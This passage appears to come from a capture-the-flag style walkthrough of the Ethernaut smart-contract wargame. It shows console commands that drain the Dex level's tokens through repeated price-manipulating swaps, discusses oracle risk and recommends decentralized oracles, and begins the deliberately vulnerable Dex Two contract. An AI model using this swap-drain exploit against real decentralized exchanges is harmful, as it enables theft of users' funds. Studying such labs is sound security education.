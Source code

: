 ```js
await contract.approve(contract.address, 500);
```

Get token addresses:

```js
t1 = await contract.token1();
t2 = await contract.token2();
```

```js
await contract.swap(t1, t2, 10);
await contract.swap(t2, t1, 20);
await contract.swap(t1, t2, 24);
await contract.swap(t2, t1, 30);
await contract.swap(t1, t2, 41);
await contract.swap(t2, t1, 45);
```

The integer math portion aside, getting prices or any sort of data from any single source is a massive attack vector in smart contracts.

You can clearly see from this example, that someone with a lot of capital could manipulate the price in one fell swoop, and cause any applications relying on it to use the the wrong price.

The exchange itself is decentralized, but the price of the asset is centralized, since it comes from 1 dex. This is why we need [oracles](https://betterprogramming.pub/what-is-a-blockchain-oracle-f5ccab8dbd72). Oracles are ways to get data into and out of smart contracts. We should be getting our data from multiple independent decentralized sources, otherwise we can run this risk.

[Chainlink Data Feeds](https://docs.chain.link/docs/get-the-latest-price/) are a secure, reliable, way to get decentralized data into your smart contracts. They have a vast library of many different sources, and also offer [secure randomness](https://docs.chain.link/docs/chainlink-vrf/), ability to make [any API call](https://docs.chain.link/docs/make-a-http-get-request/), [modular oracle network creation](https://docs.chain.link/docs/architecture-decentralized-model/), [upkeep, actions, and maintenance](https://docs.chain.link/docs/chainlink-keepers/introduction/), and unlimited customization.

[Uniswap TWAP Oracles](https://docs.uniswap.org/protocol/V2/concepts/core-concepts/oracles) relies on a time weighted price model called [TWAP](https://en.wikipedia.org/wiki/Time-weighted_average_price#). While the design can be attractive, this protocol heavily depends on the liquidity of the DEX protocol, and if this is too low, prices can be easily manipulated.

### Level 23. Dex Two

**Goal**: `player` has to drain all of `token1` and `token2`.

Given Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';
import '@openzeppelin/contracts/access/Ownable.sol';

contract Dex is Ownable {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor() public {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

```